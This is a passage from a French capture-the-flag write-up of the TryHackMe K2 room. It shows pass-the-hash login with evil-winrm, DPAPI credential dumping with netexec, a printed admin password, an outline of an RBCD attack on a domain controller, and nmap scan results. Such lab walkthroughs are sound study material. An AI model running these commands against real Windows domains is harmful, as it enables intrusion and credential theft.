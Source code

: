 En utilisant le hash de l'utilisateur `Administrator`, nous nous connectons avec evil-winrm.

```
evil-winrm -i k2.thm -u Administrator -H "9545b61858c043477c350ae86c37b32f"
```

De plus, nous pouvons récupérer le mot de passe de l'administrateur avec netexec.

```
netexec smb k2.thm -u Administrator -H "9545b61858c043477c350ae86c37b32f" --dpapi
```

![Admin password](/images/THM-K2/admin_pwd.png)

Les identifiants admin sont `Administrator:vz0q$i8b4c`.

Nous passons ensuite à la dernière machine de cette salle, The Summit.

# The Summit

The Summit, la dernière machine de la salle K2, est également un contrôleur de domaine. Grâce à l'énumération de l'Active Directory, nous découvrons des informations d'identification valides, nous permettant d'obtenir un accès initial. Nous exploitons ensuite des mauvaises permissions liées à un fichier `.bat` pour obtenir le hash du mot de passe du propriétaire du fichier, qui, une fois craqué, nous donne accès à ce compte. Bloodhound révèle que cet utilisateur fait partie d'un groupe disposant de l'autorisation `GenericWrite` sur le contrôleur de domaine, et en abusant de cette autorisation nous effectuons une délégation restreinte basée sur les ressources (Resource-Based Constrained Delegation, RBCD). Grâce à cette technique, nous récupérons le hash `Administrator` et le drapeau root.

## Balayage (The Summit)

Mettez à jour `/etc/hosts` et scannez la cible.

```
sudo nmap -sC -sV -oA nmap/k2_Summit k2.thm
```

**Résultats**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 16:56 CDT
Nmap scan report for k2.thm (10.10.124.173)
Host is up (0.19s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-16 21:57:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2ROOTDC
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2RootDC.k2.thm
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
```